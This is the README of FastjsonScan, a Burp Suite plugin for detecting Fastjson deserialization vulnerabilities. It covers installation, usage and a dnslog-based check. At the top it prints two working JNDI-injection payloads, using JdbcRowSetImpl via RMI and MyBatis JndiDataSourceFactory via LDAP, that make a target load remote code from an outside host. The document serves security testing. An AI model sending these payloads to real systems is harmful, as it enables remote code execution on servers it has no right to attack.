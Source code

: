 # FastjsonScan

#### poc1 `com.sun.rowset.JdbcRowSetImpl`
```
  {
    "axin": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "is": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://%s/aaa",
      "autoCommit": true
    }
  },
  {
    "handsome": {
      "@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
      "dataSourceName": "rmi://%s/aaa",
      "autoCommit": true
    }
  }

```

#### poc2 `org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`

**mybatis-3.0.5.jar**

```
{
  "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
  "properties": {
    "data_source": "ldap://x.x.x.x:1389/Basic/TomcatEcho"
  }
}
```

一个简单的Fastjson反序列化检测burp插件

我在挖洞的时候看到一些json请求总是想要检测一下有没有Fastjson反序列化问题，本可以直接写一个脚本来跑或者搭配其他被动扫描器来验证，但是我太懒了，先不说burp搭配其他扫描器了，就连找到特定目录下的脚本我都觉得麻烦，所以，我决定一劳永逸地解决这个问题，于是去学习了一下burp插件的写法糊弄出了这个插件


### 安装方法



- 下载项目中的FastjsonScan.jar文件
- 在burp的Extender->Extensions栏，点击Add,选择下载好的jar文件就可以了（执行环境是Java)
  
如果成功安装，会输出如下信息，如果未能成功安装可以换下jdk版本？？我用的1.8
![](images/json.png)

### 使用方法


使用方法也很简单，就像使用repeater一样，你可以在burp的任何地方选中一个请求右键选择【Send to FastjsonScan】将这个请求发送到Fastjson Scan，然后就只需要等待扫描结束🌶 

右键菜单中：

![](images/menu.png)

FastjsonScan扫描结果界面：

![](images/result.png)

如果扫描的目标存在漏洞，在窗口下面的Request窗口会展示使用的payload,如果没有漏洞，则会展示原始的请求与响应

> ps: 由于反序列化检测利用了dnslog，所以检测会稍微慢一点，在等待结果期间你还可以继续看其他请求，真的是相当方便呢


### 核心代码


核心代码都在BurpExtender.java中了，检测逻辑很简单，注释也都写了，如果你有其他的需求，完全可以自己修改，直接在IDEA中打开FastjsonScan目录就可以继续创造了
